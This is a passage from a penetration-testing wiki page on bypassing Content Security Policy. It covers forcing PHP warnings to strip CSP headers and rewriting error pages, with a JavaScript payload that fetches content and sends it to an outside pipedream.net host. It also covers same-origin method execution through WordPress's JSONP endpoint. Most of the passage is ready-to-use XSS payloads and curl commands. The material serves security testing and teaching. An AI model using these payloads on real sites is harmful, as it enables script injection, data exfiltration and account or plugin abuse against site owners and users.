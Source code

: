 ```
Because headers must be sent before any output, warnings emitted by PHP can invalidate later `header()` calls. If user input exceeds `max_input_vars`, PHP throws a startup warning first; any subsequent `header('Content-Security-Policy: ...')` will fail with “headers already sent”, effectively disabling CSP and allowing otherwise-blocked reflective XSS.

```php
<?php
header("Content-Security-Policy: default-src 'none';");
echo $_GET['xss'];
```
```
Example:
```bash
# CSP in place → payload blocked by browser
curl -i "http://orange.local/?xss=<svg/onload=alert(1)>"

# Exceed max_input_vars to force warnings before header() → CSP stripped
curl -i "http://orange.local/?xss=<svg/onload=alert(1)>&A=1&A=2&...&A=1000"
# Warning: PHP Request Startup: Input variables exceeded 1000 ...
# Warning: Cannot modify header information - headers already sent
```
```
### Rewrite Error Page

From [[https://blog.ssrf.kr/69) it looks like it was possible to bypass a CSP protection by loading an error page (potentially without CSP|**this writeup**]] and rewriting its content.

```javascript
a = window.open("/" + "x".repeat(4100))
setTimeout(function () {
  a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">
}, 1000)
```
```
### SOME + 'self' + wordpress

SOME is a technique that abuses an XSS (or highly limited XSS) **in an endpoint of a page** to **abuse** **other endpoints of the same origin.** This is done by loading the vulnerable endpoint from an attacker page and then refreshing the attacker page to the real endpoint in the same origin you want to abuse. This way the **vulnerable endpoint** can use the **`opener`** object in the **payload** to **access the DOM** of the **real endpoint to abuse**. For more information check:

[[../xss-cross-site-scripting/some-same-origin-method-execution.md]]

Moreover, **wordpress** has a **JSONP** endpoint in `/wp-json/wp/v2/users/1?_jsonp=data` that will **reflect** the **data** sent in the output (with the limitation of only letter, numbers and dots).

An attacker can abuse that endpoint to **generate a SOME attack** against WordPress and **embed** it inside `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` note that this **script** will be **loaded** because it's **allowed by 'self'**. Moreover, and because WordPress is installed, an attacker might abuse the **SOME attack** through the **vulnerable** **callback** endpoint that **bypasses the CSP** to give more privileges to a user, install a new plugin...\
For more information about how to perform this attack check [[https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/|https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/]]

## CSP Exfiltration Bypasses

If there is a strict CSP that doesn't allow you to **interact with external servers**, there are some things you can always do to exfiltrate the information.

### Location

```